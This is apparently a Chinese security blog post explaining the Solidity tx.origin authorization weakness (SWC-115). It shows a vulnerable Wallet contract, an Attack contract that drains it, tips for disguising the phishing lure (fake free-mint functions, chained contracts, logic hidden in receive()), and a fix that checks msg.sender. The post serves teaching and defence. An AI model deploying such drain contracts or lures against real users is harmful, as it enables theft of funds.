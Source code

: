 ```yaml
---
weight: 5
title: "智能合约中通过 tx.origin 授权引发的不安全问题"
date: 2019-10-01T17:55:28+08:00
draft: false
author: "5oneXj"

categories: ["基础知识", "合约安全"]
tags: ["基础知识", "合约安全", "EXP", "POC"]
---
```



# 0x00 前言

在合约代码中，最常用的是使用 `msg.sender` 来检查授权，但有时由于有些程序员不熟悉 `tx.origin` 和 `msg.sender` 的区别，如果使用了 `tx.origin` 可能导致合约的安全问题。黑客最典型的攻击场景是利用 `tx.origin` 的代码问题常与钓鱼攻击相结合的组合拳的方式进行攻击。

tx.origin是 Solidity 中的一个全局变量，它返回发送交易的账户地址。如果授权帐户调用恶意合约，使用变量进行授权可能会使合约容易受到攻击。可以调用通过授权检查的易受攻击的合约，因为tx.origin返回交易的原始发件人，在这种情况下是授权帐户。

通过调用 `tx.origin` 来检查授权可能会导致合约受到攻击，因为 `tx.origin` 返回交易的原始发送者，因为攻击的调用链可能是 `原始发送者－>攻击合约－> 受攻击合约` 。在受攻击合约中，`tx.origin` 是原始发送者。


# 0x01 前置知识

两者都是 Solidity 中的一个全局变量。

msg.sender: 指直接调用智能合约功能的帐户或智能合约的地址
tx.origin: 指调用智能合约功能的账户地址，只有账户地址可以是tx.origin

EOA 账户和合约账户

EOA 账户和合约账户
以太坊账户分两种，外部账户(EOA)和合约账户(SCA)。

外部账户由一对公私钥进行管理，账户包含着 Ether 的余额。
合约账户除了可以含有 Ether 余额外，还拥有一段特定的代码，预先设定代码逻辑在外部账户或其他合约对其合约地址发送消息或发生交易时被调用和处理。
外部账户 EOA

由公私钥对控制
拥有 ether 余额
可以发送交易（transactions）
不包含相关执行代码
合约账户

拥有 ether 余额
含有执行代码
代码仅在该合约地址发生交易或者收到其他合约发送的信息时才会被执行
拥有自己的独立存储状态，且可以调用其他合约
msg.sender 和 tx.origin 的区别
tx.origin：表示最初的调用者，通常取得的是 EOA 的地址。

msg.sender：表示最近的调用者，通常取得是的上级调用者的地址，可以是 EOA 地址，也可以是合约地址。

如果 EOA 用户 A 调用合约 B，合约 B 调用合约 C。那么

在 C 合约中，msg.sender 就是 B 合约的地址，tx.origin 为 A 地址。
在 B 合约中，msg.sender 是 A 地址，tx.origin 也为 A 地址。
通过判断tx.origin==msg.sender来确定调用者是合约还是 EOA 账户。

{{< admonition tip "思考 ：可不可以通过判断一个账户的是否包含执行代码来区分这个账户是 EOA 还是 SCA?" >}}

不可以。因为一个合约地址的 CODESIZE是大于零的，但当地址的 CODESIZE等于零时，并不能保证其为非合约，因为合约在构造阶段 CODESIZE也为零。

{{< /admonition >}}

# 漏洞演示

下面的漏洞合约代码，在 transfer 方法中做了检查，本意是只有 owner 可以进行 transfer 操作。在这里使用的是tx.origin==owner进行检查。我们假设该 Wallet 合约的部署者是 Alice.


```solidity
contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

黑客(假设 Eve 为黑客)可以这样进行漏洞利用。

黑客编写一个 Attack 的合约，并进行部署。
黑客通过钓鱼等手段诱导 Wallet 合约的部署者调用 Attack 合约的 attack 方法。
黑客就窃取到了 Wallet 合约的 ETH。
Attack 合约代码

```solidity
contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```

在这个过程中，Alice 调用了 Attack 合约的 attack 方法，attack 方法调用了 wallet 合约的 transfer 方法，在 transfer 方法中 tx.origin 是 alice(在 transfer 方法中 tx.sender 是 attack 合约)，因为 alice 就是 Wallet 合约的 owner，因此通过检测，将 ETH 转给了黑客 Eve。

还有个疑问，Alice 会傻到去调用 Eve 的合约吗？

这依靠黑客 Eve 的钓鱼的手法，如果像上面的 attack 方法 Alice 一般不会上当，但如果方法名假装成免费 mint NFT 的函数 freemint，且代码里调用了其它的大量的正常代码，并且调用了其他的合约 C，在 C 合约里调用 wallet.transfer，可能就很难识别出该方法有问题了。而且 Alice 在正常生活中使用 DAPP 时(如使用 uniswap,stepn 等时)，后端采用的也是调用合约方法的形式，相比于直接发送虚假链接发送钓鱼邮件类的邮件，Alice 对此类钓鱼的警惕性会更低些。

所以，黑客为了钓鱼更易成功，可以从下面方面进行增强

多个合约连接。合约 A 调用合约 B，合约 B 调用合约 C，合约 C 调用合约 D，…………，最后合约中调用 wallet.transfer。
黑客的合约可以利用社会工程学伪装，利用贪便宜的心理，打低价或者免费 mint 的旗号，或者高息诱惑的方式等。
黑客可以将漏洞利用隐藏在receive函数中，通过诱导用户向指定的合约转账内触发漏洞利用。如假装与用户进行换币，给客户很大的折扣诱导等。

# 安全建议

建议使用 `msg.sender` 进行授权，而非不安全的 `tx.origin` ，使用不当将会造成不必要的损失。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract MyContract {
    address owner;

    constructor() {
        owner = msg.sender;
    }

    function sendTo(address payable receiver, uint amount) public {
      // 不安全写法：require(tx.origin == owner);
      require(msg.sender == owner);
      receiver.transfer(amount);
    }
}
```

# 参考

{{< admonition tip "Tips" >}}

SWC-115 Authorization through tx.origin
https://swcregistry.io/docs/SWC-115

使用 tx-origin 钓鱼
https://solidity-by-example.org/hacks/phishing-with-tx-origin

代码中的 tx.origin==msg.sender 有什么作用？
https://ethereum.stackexchange.com/questions/113962/what-does-msg-sender-tx-origin-actually-do-why


https://davidkathoh.medium.com/tx-origin-vs-msg-sender-93db7f234cb9
{{< /admonition >}}